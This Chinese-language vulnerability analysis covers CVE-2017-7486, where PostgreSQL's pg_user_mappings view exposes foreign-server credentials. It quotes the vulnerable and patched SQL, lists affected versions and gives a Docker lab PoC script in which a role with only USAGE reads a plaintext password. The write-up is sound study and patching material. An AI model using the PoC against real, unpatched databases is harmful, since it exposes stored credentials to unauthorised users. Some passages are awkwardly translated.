


# CVE-2017-7486 CWE-200&522 PostgreSQL 信息泄露

## 漏洞背景

- **PostgreSQL**：PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **外部数据封装器（FDW）：**PostgreSQL 实现 SQL/MED 的机制，用来把外部数据源（其他数据库、文件或服务）当作外部表访问。
- **外部服务器（Foreign Server）：****PostgreSQL 在 FDW 架构中的连接目标定义，表示某个外部数据源的“端点与属性”。它绑定到某个 FDW 驱动，并记录连接所需的无敏感参数（如 `host`、`port`、`dbname`、额外 options 等），由服务器属主维护；具体的身份凭据不在外部服务器上保存，而由与之关联的 User Mapping 为不同本地角色提供账号/密码或令牌。访问控制上，对外部服务器授予 USAGE 仅表示允许“使用该目标”，真正读写还需在外部表层面赋权；外部服务器被 FOREIGN TABLE 引用后，查询会通过相应 FDW 把请求转发到该远端数据源。**
- **USAGE 权限：**在 PostgreSQL 里，表示“可用但不可见”的最小化访问权，它不允许读写对象内容，只是允许用户引用或使用该对象。对 foreign server / FDW 授予 USAGE，可以让用户在其上定义 user mapping 或发起连接，但并不意味着能看到或操作敏感信息。USAGE 是进入门槛，而实际操作仍需额外的 SELECT/INSERT 等具体权限。
- **pg_user_mappings 视图：** PostgreSQL 提供的系统视图，用来展示数据库中定义的 外部服务器用户映射（user mapping），即本地数据库用户与外部数据源（Foreign Server）的关联信息。视图内容来源于系统表 `pg_user_mapping`，其中 `umoptions` 字段可能包含敏感信息（如外部数据库的用户名和密码）。设计上，只有超级用户、映射属主或具备特定权限的用户才能看到完整信息，否则应返回 `NULL`，以避免泄露凭据。
- **CWE-200（向未授权参与方暴露敏感信息）：**软件因权限校验不严或输出控制不当，把本应受保护的数据（如口令、密钥、令牌、个人信息、内部配置、系统版本等）泄露给未授权对象。
- **CWE-522（凭据保护不足）：**应用在存储或传输账户凭据（如密码、API 密钥、令牌）时缺乏充分防护。可能导致被窃取并导致账号接管、横向移动与数据泄露。

## 漏洞原理

 PostgreSQL 提供的系统视图 pg_user_mappings 的可见性判断过宽，导致任何仅被授予某个 foreign server USAGE 的普通用户，都能通过查询该视图（或 `\deu+`）看到 `PUBLIC` 映射中的明文凭据，从而发生信息泄露。

## 漏洞定位

分析 PostgreSQL 9.4.0 源码：

在  src/backend/catalog/system_views.sql 文件中，第 **728** 行用于判断在`pg_user_mappings` 视图里决定是否把敏感字段 `umoptions`（常含 user/password）原样返回。

其中的`has_server_privilege(S.oid, 'USAGE')`语句只要**被授予了 USAGE**（常用于允许连接/使用该 server），就让条件成立。该 `CASE` 完全不检查映射的归属（`U.umuser` 是否是当前用户、是否为 `PUBLIC`），也不要求超级用户，导致任何仅有 USAGE 的普通用户都能看见 `umoptions`，包括 `PUBLIC` 映射里的明文 `password`。

```sql
-- ***** 728 行 ******* 漏洞点 *****
CASE WHEN
  -- 当前用户是“服务器属主”角色的可用成员
  pg_has_role(S.srvowner, 'USAGE')  
  -- 当前用户对该 foreign server 拥有 USAGE
  OR has_server_privilege(S.oid, 'USAGE')
-- 直接暴露选项（含密码）
THEN U.umoptions  
-- 否则隐藏
ELSE NULL                                    
END AS umoptions
```

## 漏洞修复


升级到 PostgreSQL 9.6.3、9.5.7、9.4.12、9.3.17、9.2.21，或相应分支中的更高版本。
在src/backend/catalog/system views.sql中,修改可见度判断 `umoptions` (通常密码保护) `pg_user_mappings` 视图。 只有超级用户、外部服务器所有者和特定用户映射返回 `U.umoptions`;否则,所有 `NULL`仅仅绘制目标用户的地图已经不足以查看敏感的选项； 您必须获得服务器本身的许可 。

```sql
 CASE WHEN 
 	-- This mapping is created for a specific user, not for PUBLIC
 	(U.umuser <> 0 AND A.rolname = current_user)
 	-- Is this mapping PUBLIC, and is it the owner of this server?
    OR (U.umuser = 0 AND pg_has_role(S.srvowner, 'USAGE'))
    -- Superuser
    OR (SELECT rolsuper FROM pg_authid WHERE rolname = current_user)
    -- Returns the contents of umoptions
    THEN U.umoptions
   -- Return NULL
   ELSE NULL END AS umoptions
```

## 影响范围


** 受影响的版本:** PostgreSQL：

-  8.4.0 改为 8.4.22
-  9.0.0 改为 9.0.23
-  9.1.0 改为 9.1.24
-  9.2.0 改为 9.2.21
-  9.3.0 改为 9.3.17
-  9.4.0 改为 9.4.12
-  9.5.0 改为 9.5.7
-  9.6.0

** 影响组件 :** pg user 映射视图

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 9.4.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST:NVD   Base Score:7.5 HIGH   CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:9.4:*:*:*:*:*:*:*
```



## 漏洞复现

使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 并运行 PoC 文件

```bash
docker exec -it postgres-9.4.0 psql -U postgres -d test -f CVE-2017-7486-PoC.sql
```

在 Step 7 中无特权用户（仅有 USAGE）通过查询视图可以看到 `password`为` secretpass`



## PoC分析

```sql
CREATE USER regress_test_role;
CREATE USER regress_unprivileged_role;

-- 创建一个虚拟的外部数据封装器（FDW），名字叫 foo
CREATE FOREIGN DATA WRAPPER foo;
GRANT USAGE ON FOREIGN DATA WRAPPER foo TO regress_test_role;

-- 授予 regress_test_role 对 foo 的 USAGE 权限，否则它无法创建外部服务器
SET ROLE regress_test_role;
-- 以 regress_test_role 创建一个外部服务器 s10（使用 foo 封装器）
CREATE SERVER s10 FOREIGN DATA WRAPPER foo;

-- 给 PUBLIC 建立 user mapping，包含敏感信息（用户名 bob 和密码 secretpass）
CREATE USER MAPPING FOR PUBLIC SERVER s10
  OPTIONS (user 'bob', password 'secretpass');

-- 将外部服务器 s10 的 USAGE 权限授予攻击者角色 regress_unprivileged_role
GRANT USAGE ON FOREIGN SERVER s10 TO regress_unprivileged_role;

-- 查看用户映射列表（漏洞点）：在未修复的版本里，这里会显示敏感字段 password
SET ROLE regress_unprivileged_role;
\deu+
```

仅授予 `FOREIGN SERVER s10` 的 **USAGE** 权限给普通用户（`regress_unprivileged_role`），该用户使用 `\deu+` 查询 系统视图 `pg_user_mappings`后可以看到 `("user" 'bob', password 'secretpass')`。

## 参考链接


[NVD - CVE-2017-7486](https://nvd.nist.gov/vuln/detail/CVE-2017-7486)

[Match pg_user_mappings limits to information_schema.user_mapping_opti… · postgres/postgres@3eefc51](https://github.com/postgres/postgres/commit/3eefc51053f250837c3115c12f8119d16881a2d7#diff-a0e160aa93677ab1087c2cd3ddf5da762966b366e40ae99a6377f1c4db8a9f23)
